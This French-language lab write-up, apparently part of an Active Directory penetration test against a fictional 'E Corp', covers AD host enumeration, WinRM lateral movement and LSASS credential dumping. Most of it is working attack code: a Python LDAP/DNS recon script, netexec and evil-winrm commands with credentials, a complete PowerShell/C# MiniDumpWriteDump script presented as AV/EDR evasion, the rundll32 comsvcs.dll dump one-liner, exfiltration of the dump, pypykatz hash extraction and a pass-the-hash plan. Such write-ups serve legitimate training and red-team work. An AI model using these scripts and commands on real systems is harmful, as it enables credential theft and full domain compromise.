


# Phase 4 : Mouvement latéral et dump LSASS

**Correspondance MITRE ATT&CK :**
-   **Discovery :** Remote System Discovery (T1018), System Owner/User Discovery (T1033)
-   **Lateral Movement :** Remote Services: Windows Remote Management (T1021.006)
-   **Credential Access :** OS Credential Dumping: LSASS Memory (T1003.001)

---

## 1. Cartographie des cibles et résolution DNS

Afin d'exploiter le compte de service `svc_deploy` dont le mot de passe a été cassé, il est nécessaire de lister les machines de l'Active Directory. L'attaquant développe un script Python sur-mesure (`enum_ad_computers.py`) pour automatiser l'énumération LDAP et la corrélation DNS.

**Script de reconnaissance (`enum_ad_computers.py`) :**

```python
import dns.resolver
from ldap3 import Server, Connection

# 1. Requête LDAP et extraction des noms d'hôtes uniques
conn = Connection(Server('10.0.20.5'), 'e.alderson@ecorp.local', 'E@lderson1', auto_bind=True)
conn.search('DC=ecorp,DC=local', '(objectClass=computer)', attributes=['dNSHostName'])
hosts = {str(e.dNSHostName) for e in conn.entries if e.dNSHostName}

# 2. Configuration DNS
res = dns.resolver.Resolver(configure=False)
res.nameservers = ['10.0.20.5']

# 3. Résolution et écriture
with open('targets.txt', 'w') as f:
    for h in hosts:
        try:
            ip = res.resolve(h, 'A', tcp=True)[0].to_text()
        except Exception:
            ip = '?'
        
        line = f"{ip} {h}"
        print(line)
        f.write(line + '\n')
```

Le script est exécuté au travers du tunnel pour atteindre le réseau interne :
```bash
proxychains -q python3 enum_ad_computers.py
```
*Ce script utilise la bibliothèque `ldap3` pour extraire les objets ordinateurs, puis `dnspython` pour résoudre leurs adresses via des requêtes TCP (plus fiables à travers un proxy SOCKS). Le résultat est sauvegardé dans `targets.txt` :*
```
10.0.20.5 LAN-WIN-DC01.ecorp.local
10.0.20.102 LAN-WIN-MGMT01.ecorp.local
10.0.20.100 LAN-WIN-WK01.ecorp.local
```

---

## 2. Validation des privilèges et chasse aux sessions

L'objectif est d'identifier sur quelles machines le compte `svc_deploy` possède des droits d'administration locale, puis de vérifier si des utilisateurs à hauts privilèges y sont actuellement connectés.

**Validation des droits et filtrage des cibles :**

L'attaquant vérifie d'abord ses privilèges sur l'ensemble du parc.

```bash
proxychains -q netexec winrm targets.txt -u 'svc_deploy' -p 'Password123!'
```
*Le retour de la première commande affiche la mention critique `(Pwn3d!)` sur `LAN-WIN-MGMT01` et `LAN-WIN-WK01`. Le compte de service est bien Administrateur Local sur ces deux machines.*

**Énumération des sessions actives (`quser`) :**

Constatant que l'accès au Contrôleur de Domaine (DC01) est logiquement refusé, il l'exclut de sa liste de cibles via un filtre `grep`. Cette précaution permet d'éviter de générer des logs d'erreur d'authentification inutiles lors de l'étape suivante.
```bash
grep -v -i "LAN-WIN-DC01" targets.txt > targets_no_dc.txt
```

En ciblant désormais uniquement les machines compromises, l'attaquant force l'exécution de la commande système `quser` pour lister les sessions ouvertes en mémoire.

```bash
proxychains -q netexec winrm targets_no_dc.txt -u 'svc_deploy' -p 'Password123!' -X 'quser'
```



**Analyse de l'exécution :** Le résultat révèle que `e.alderson` est connecté sur WK01, mais surtout que **`t.wellick` (identifié lors de la phase 3 comme Administrateur du Domaine) possède une session active sur le serveur MGMT01**. Les conditions pour voler son identité sont réunies.

---

## 3. Mouvement latéral et dump LSASS (Living off the Land)

L'attaquant ouvre une session interactive sur `LAN-WIN-MGMT01` en utilisant `evil-winrm` au travers du tunnel SOCKS5 :
```bash
proxychains -q evil-winrm -i 10.0.20.102 -u 'svc_deploy' -p 'Password123!'
```

Pour extraire les secrets de l'Administrateur du Domaine stockés en mémoire sans déclencher les antivirus, le téléchargement d'outils offensifs connus (comme `mimikatz.exe` ou `procdump.exe`) est évité. L'attaquant privilégie une approche "Living off the Land" en s'appuyant sur un script PowerShell de manipulation d'API nommé `lsaKiller.ps1`. Ce script a été trouvé sur le dépôt GitHub `florylsk/active-directory-hacktools`, qui regroupe de nombreux outils et scripts utiles pour l'audit d'environnements Active Directory (liés à Mimikatz, BloodHound, etc.).

**Pourquoi utiliser cette méthode spécifique ?**

1.  **Exécution Fileless :** Le script complet est copié-collé directement dans l'invite interactive `evil-winrm`. Aucun fichier `.ps1` ou binaire n'est déposé sur le disque, ce qui contourne certaines analyses statiques de l'antivirus.
2.  **Appels Système natifs (P/Invoke) :** Plutôt que d'utiliser des bibliothèques externes, la cmdlet `Add-Type` compile du code C# à la volée. Cela permet à PowerShell d'invoquer directement la bibliothèque non gérée légitime de Microsoft (`Dbghelp.dll`) et sa fonction `MiniDumpWriteDump`. Le comportement mime un processus de débogage standard.
3.  **Évasion des signatures connues :** Cette approche sur mesure permet de ne pas provoquer les alertes liées aux techniques de dump classiques, souvent bloquées par les EDR. Elle remplace avantageusement des méthodes très surveillées comme l'utilisation de la fonction `Out-Minidump` ou la célèbre commande LOLBin `rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PID_LSASS> C:\lsass.dmp full`.

<details>
<summary><strong>Code d'injection P/Invoke (PowerShell / C#)</strong></summary>

*Le script se divise en trois phases clés :*
1. *La définition de l'énumération `Option` : Elle liste les drapeaux (flags) de l'API. On vise spécifiquement `WithFullMemory` (0x00000002) pour capturer toute la mémoire.*
2. *L'importation P/Invoke (`DllImport`) : Elle mappe la fonction `MiniDumpWriteDump` de la DLL `Dbghelp.dll` vers une méthode utilisable en C#.*
3. *L'exécution (`Dump`) : Le script récupère le "Handle" (le ticket d'accès) du processus LSASS, crée un fichier vide sur le disque, et demande au noyau d'y copier la mémoire.*

```powershell
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

public class MiniDump {
    [Flags]
    public enum Option : uint {
        Normal = 0x00000000,
        WithDataSegs = 0x00000001,
        WithFullMemory = 0x00000002,
        WithHandleData = 0x00000004,
        FilterMemory = 0x00000008,
        ScanMemory = 0x00000010,
        WithUnloadedModules = 0x00000020,
        WithIndirectlyReferencedMemory = 0x00000040,
        FilterModulePaths = 0x00000080,
        WithProcessThreadData = 0x00000100,
        WithPrivateReadWriteMemory = 0x00000200,
        WithoutOptionalData = 0x00000400,
        WithFullMemoryInfo = 0x00000800,
        WithThreadInfo = 0x00001000,
        WithCodeSegs = 0x00002000,
        WithoutAuxiliaryState = 0x00004000,
        WithFullAuxiliaryState = 0x00008000,
        WithPrivateWriteCopyMemory = 0x00010000,
        IgnoreInaccessibleMemory = 0x00020000,
        ValidTypeFlags = 0x0003ffff,
    }

    [DllImport("Dbghelp.dll")]
    private static extern bool MiniDumpWriteDump(
        IntPtr hProcess,
        uint processId,
        IntPtr hFile,
        Option dumpType,
        IntPtr exceptionParam,
        IntPtr userStreamParam,
        IntPtr callbackParam
    );

    public static void Dump(string path, int processId) {
        using (Process process = Process.GetProcessById(processId)) {
            using (var fileStream = new System.IO.FileStream(path, System.IO.FileMode.Create)) {
                MiniDumpWriteDump(
                    process.Handle,
                    (uint)processId,
                    fileStream.SafeFileHandle.DangerousGetHandle(),
                    Option.WithFullMemory,
                    IntPtr.Zero,
                    IntPtr.Zero,
                    IntPtr.Zero
                );
            }
        }
    }
}
"@

$dumpPath = "C:\Windows\Temp\lsass.dmp"
$lsass = Get-Process lsass
[MiniDump]::Dump($dumpPath, $lsass.Id)
```
</details>

Une fois ce code exécuté, le fichier généré est exfiltré vers la machine attaquante grâce à la fonctionnalité native d'Evil-WinRM :
```powershell
download "C:\Windows\Temp\lsass.dmp" "/home/ismael/Downloads/ad_recon/lsass.dmp"
```

---

## 4. Extraction des secrets et compromission totale (offline)

Une fois le dump de 59 Mo récupéré sur la machine Linux (Kali), l'outil `pypykatz` (une implémentation Python de Mimikatz) est utilisé pour analyser la structure de données hors-ligne, échappant ainsi à toute détection EDR sur le réseau cible.

Afin d'isoler uniquement les informations de l'Administrateur du Domaine, la sortie est filtrée via `awk` :
```bash
pypykatz lsa minidump lsass.dmp | awk -v RS= -v ORS="\n\n" '/t.wellick/'
```



**Analyse du résultat :**

-   Le bloc `== WDIGEST ==` indique `password None`. Les protections modernes de Windows (Credential Guard ou désactivation de WDigest) sont actives et empêchent le stockage du mot de passe en texte clair en mémoire.
-   Cependant, le bloc `== MSV ==` livre l'information la plus critique de l'audit :
**`NT: 1397b56e045645f827b5cd3e325fbc73`**

Dans un environnement Active Directory, la possession du hash NTLM est équivalente à la possession du mot de passe. L'attaquant n'a pas besoin de le casser. Il peut désormais utiliser la technique du **Pass-the-Hash (PtH)** pour s'authentifier directement sur le Contrôleur de Domaine, scellant ainsi la compromission totale de l'infrastructure E Corp.